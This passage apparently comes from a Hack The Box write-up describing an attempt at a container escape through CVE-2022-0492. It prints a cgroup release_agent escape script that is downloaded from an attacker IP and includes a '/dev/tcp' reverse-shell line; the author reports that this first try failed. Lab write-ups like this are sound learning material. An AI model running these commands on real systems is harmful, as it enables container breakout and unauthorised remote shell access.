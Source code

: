 After a bit more investigating I come across [this post](https://terenceli.github.io/%E6%8A%80%E6%9C%AF/2022/03/06/cve-2022-0492) about CVE-2022-0492 explaining how we can create new user namespace and cgroup namespace using `unshare -UrmC bash`, and then be able to mount the cgroupfs. 

> _".. in the container we execute unshare to create new user namespace and cgroup namespace. Then we can mount the cgroupfs and write our data to release_agent."_

So lets jump back to the first escape from Blackhat, this time using `unshare` to create new namespaces. 

```bash
# wget http://10.10.14.10/esc.sh
# chmod +x esc.sh
# cat esc.sh
mkdir /tmp/esc
mount -t cgroup -o rdma cgroup /tmp/esc
mkdir /tmp/esc/w
echo 1 > /tmp/esc/w/notify_on_release
pop="$overlay/shell.sh"
echo "bash -i >& /dev/tcp/10.10.14.10/4400 0>&1" > /shell.sh
chmod +x /shell.sh
echo $pop > /tmp/esc/release_agent
sleep 5 && echo 0>/tmp/esc/w/cgroup.procs &

# unshare -UrmC bash
bash esc.sh
```

Nothing happens.. I really don't understand the `$overlay` part, echoing it returns nothing. Investigating this further we find another, very similar, [PoC](https://blog.aquasec.com/threat-alert-container-escape):
![](/assets/images/htb-writeup-carpediem/carpediem23.png)
